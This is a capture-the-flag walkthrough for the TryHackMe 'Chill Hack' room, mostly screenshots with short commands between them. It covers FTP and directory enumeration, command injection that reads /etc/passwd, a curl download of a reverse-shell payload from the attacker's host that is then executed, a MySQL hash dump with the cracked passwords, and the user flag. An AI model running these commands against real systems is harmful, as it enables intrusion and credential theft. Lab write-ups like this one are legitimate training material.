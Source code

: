 ### 05-Mar-24-Tue

[TryHackMe | Chill Hack](https://tryhackme.com/room/chillhack)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/20125be3-3285-4fb8-8d6d-a1039d894eb3)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f5952956-8ae0-4b57-8140-a605155da40c)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/32105c8c-02f4-4227-ae55-e2737ad24c6b)

```
ftp anonymous@10.10.20.118
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c5d4cc88-cd0f-42d2-93ff-bcccd99b3ae6)

http://10.10.20.118/

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/88042967-dc26-4fd8-926d-b9f4be79772d)

```
gobuster dir -u http://10.10.52.188/ -w /usr/share/wordlists/dirb/common.txt
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/40de5bad-b385-4548-9560-b21011b14742)

http://10.10.52.188/secret/

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/55083eda-f85e-4f15-8e9c-004b6de3ebe7)

```
pwd
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/7b5c0104-b6d4-4586-bc20-118ed2f17bed)

```
whoami
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6fe99637-ff56-47ad-83d6-b9bb0bf22dc2)

```
which python
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/1f9aa056-696b-4586-884d-74c8ee934327)

https://dangilbert.gitbook.io/try-hack-me/writeups/chillhack

```
echo $(cat /etc/passwd)
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/896d458f-3e28-4bbe-a8f1-546698f021ec)

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin aurick:x:1000:1000:Anurodh:
/home/aurick:/bin/bash mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false apaar:x:1001:1001:,,,:
/home/apaar:/bin/bash anurodh:x:1002:1002:,,,:
/home/anurodh:/bin/bash ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

```
echo $(cat index.php | base64)
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f5c5fa68-22d5-45be-9f41-244176e47fc0)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/cf668110-d0b2-4f94-9035-c2123a4fe096)

```
curl http://10.17.44.152:8000/revshell.php -o /dev/shm/revshell.php
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/34af0cc9-4eec-4a15-b3bb-319896e277cb)

```
php7.2 /dev/shm/revshell.php
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b7c9c84b-8034-4b2c-b277-b23aea6369c2)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6c193fe4-592b-49ca-a7c5-ddb60271faf0)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6bda7e47-ba46-4fd4-90b5-8ea9df271f84)

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f5f6cb2a-3386-47db-a151-e040f90fcaa9)

```
mysql -u root -p
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/dbef2940-7640-43db-830f-da070cfcfeea)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/71e7fe1c-eabd-4a92-9727-c1e12d2d3fbb)


| id | firstname | lastname | username  | password                         |
| - | - | - | - | - |
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ff1a766a-566b-4add-ba66-0058124c7b5a)

| Hash | Type | Result |
| - | - | - |
| 686216240e5af30df0501e53c789a649	| md5 |	dontaskdonttell |
| 7e53614ced3640d5de23f111806cc4fd	| md5	| masterpassword |

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/066f4971-662a-4d0e-896e-e80f9d6ed717)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/8ce218a5-be2a-4a17-967e-7e8e84ac6fda)

https://drive.google.com/file/d/1XESxM91W-L3ONBw3rQTR_mrf67mhT3OZ/view?source=post_page-----889274e1aa78--------------------------------

```
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```


